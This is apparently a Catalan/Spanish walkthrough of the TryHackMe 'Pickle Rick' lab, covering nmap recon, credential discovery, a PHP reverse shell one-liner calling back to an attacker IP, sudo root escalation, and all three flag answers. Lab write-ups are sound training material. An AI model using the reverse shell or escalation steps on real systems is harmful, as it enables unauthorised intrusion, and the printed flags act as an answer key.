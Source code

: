 # Pickle Rick

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de diciembre de 2024 18:59
IP: 10.10.21.47

# **Reconocimiento**

> NMAP INICIAL
> 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.21.47 -oG allports
```

![image.png](imagenes/image 12.png)

> NMAP Servicios
> 

```bash
 nmap -sV -script=http-enum 10.10.21.47 -vvv -oN targeted
```

![image.png](imagenes/image 13.png)

# Análisis de vulnerabilidades

Código fuente

![image.png](imagenes/image 14.png)

Username : R1ckRul3s

Accedirm a /robots.txt

![image.png](imagenes/image 15.png)

Accedim a /login.php i provem les credencials

![image.png](imagenes/image 16.png)

Llistem arxius i trobem :

**Sup3rS3cretPickl3Ingred.txt**

Si provem a obrirlo amb "CAT" ens diu que no podem executar aquest comando. Provem amb less i amb more:

> Flag 1r ingredient :	**mr. meeseek hair**
> 

# Explotación de vulnerabilidades

Intentem conectarnos amb una rever shell i la que ens funciona es una PHPexec:

```bash
php -r '$sock=fsockopen("10.9.4.64",443);exec("bash <&3 >&3 2>&3");'
```

![image.png](imagenes/image 17.png)

Accedim al sistema :

Busquem diferents fichers:

![image.png](imagenes/image 18.png)

Entrem al home de rick i trobem el segon flag

> Flag 2n ingredient: **1 jerry tear**
> 

# Escalada de privilegios

Busquem com ens podem convertir en root:

```bash
sudo -l
```

![image.png](imagenes/image 19.png)

Podem executar qualsevol comando sense password

```bash
sudo /bin/bash
```

Busquem al directori root la ultima flag:

> Flag 3: **fleeb juice**
>